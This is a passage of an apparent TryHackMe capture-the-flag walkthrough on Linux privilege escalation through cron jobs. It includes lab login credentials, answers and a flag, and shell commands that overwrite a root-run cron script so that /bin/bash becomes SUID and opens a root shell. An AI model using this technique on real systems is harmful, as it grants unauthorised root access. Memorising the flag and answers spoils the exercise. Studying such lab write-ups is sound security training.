 Alternatively, you can access it over SSH with the low-privilege user credentials below:<br><br>

Username: karen<br>

Password: Password1</strong></p>

<h3 align="left"> $$\textcolor{#f00c17}{\textnormal{Answer the questions below}}$$ </h3>

> 9.1 - <em>How many user-defined cron jobs can you see on the target system?</em><br>
>> <code><strong>4</strong></code><br>
<p></p>

![image](https://github.com/user-attachments/assets/06c569f4-82bd-4682-a521-46f2b2903260)

<br>

> 9.2 - <em>What is the content of the flag5.txt file?</em><br>
>> <code><strong>THM-383000283</strong></code><br>
<p></p><br>

<pre><code># karen@ip-[Target]:~$ find / -name flag5.txt 2>/dev/null
/home/ubuntu/flag5.txt
karen@ip-[Target]:~$ cat /home/ubuntu/flag5.txt
cat: /home/ubuntu/flag5.txt: Permission denied
karen@ip-[Target]:~$ ls -la
total 20
drwxrwxrwx 4 root  root  4096 Oct 31 03:18 .
drwxr-xr-x 4 root  root  4096 Jun 20  2021 ..
drwx------ 2 karen karen 4096 Oct 31 03:18 .cache
drwxrwxr-x 3 karen karen 4096 Jun 20  2021 .local
-rw-r--r-- 1 karen karen   77 Jun 20  2021 backup.sh
</code></pre><br>

<pre><code># nano backup.sh
</code></pre><br>

<pre><code>#!/bin/bash
cd /home/admin/1/2/3/Results
zip -r /home/admin/download.zip ./*
</code></pre><br>

<pre><code>#!/bin/bash
chmod u+s /bin/bash
</code></pre><br>

<pre><code>karen@ip-[Target]:~$ chmod 777 backup.sh
</code></pre><br>

<pre><code>karen@ip-[Target]:~$ /bin/bash -p
bash-5.0# whoami
root
bash-5.0# find / -name flag5.txt 2>/dev/null
/home/ubuntu/flag5.txt
bash-5.0# cat /home/ubuntu/flag5.txt
THM-383000283
bash-5.0# 
</code></pre><br>
